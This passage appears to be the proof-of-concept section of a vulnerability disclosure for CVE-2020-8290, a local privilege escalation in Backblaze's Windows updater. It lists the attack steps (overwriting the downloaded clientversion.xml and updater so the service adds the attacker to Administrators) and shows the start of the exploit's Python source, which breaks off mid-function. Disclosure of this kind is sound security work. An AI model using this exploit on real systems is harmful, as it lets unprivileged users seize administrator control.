## Proof of Concept
**Video:** [https://youtu.be/OpC6neWd2aM](https://youtu.be/OpC6neWd2aM)

The above video shows two concurrent logins to the same VM: an administrator's session on the left, and an unprivileged attacker's session on the right. You can see the following steps in the in the video:

1. `Attacker` runs `net localgroup Administrators` to show that the unprivileged attacker's account (named `Attacker`) is not a member of the `Administrators` group.
1. Attacker runs `python eop.py` (whose source code is below).
1. The administrator then installs Backblaze.
1. Six minutes later, the installed Backblaze service downloads `clientversion.xml`, which the exploit overwrites.
1. One minute later, the installed Backblaze service downloads the updater executable, which the exploit overwrites.
1. The Backblaze service then runs the overwritten updater, which adds the `Attacker` account to the `Administrators` group.
1. The attacker then runs `net localgroup Administrators` again to show that the `Attacker` account has indeed been added to the `Administrators` group. Local privilege elevation complete.

```python
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     http://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.

"""Proof-of-concept exploit for CVE-2020-8290 for Windows."""


__author__ = "geffner@gmail.com (Jason Geffner)"
__version__ = "1.0"


import base64
import bz2
import ctypes
import os
import platform
import re
import subprocess
import time


def wait_for_filesystem_object(file_path):
    if os.path.exists(file_path):
        return
    parent_directory = os.path.dirname(file_path)
    if not os.path.exists(parent_directory):
        wait_for_filesystem_object(parent_directory)
    buffer = ctypes.create_string_buffer(1024)
    bytes_returned = ctypes.c_ulong()
    if "." in os.path.basename(file_path):
        notify_filter = 8
    else:
        notify_filter = 2
    h = ctypes.windll.kernel32.CreateFileW(parent_directory, 1, 3, None, 3,
                                           0x02000000, None)
```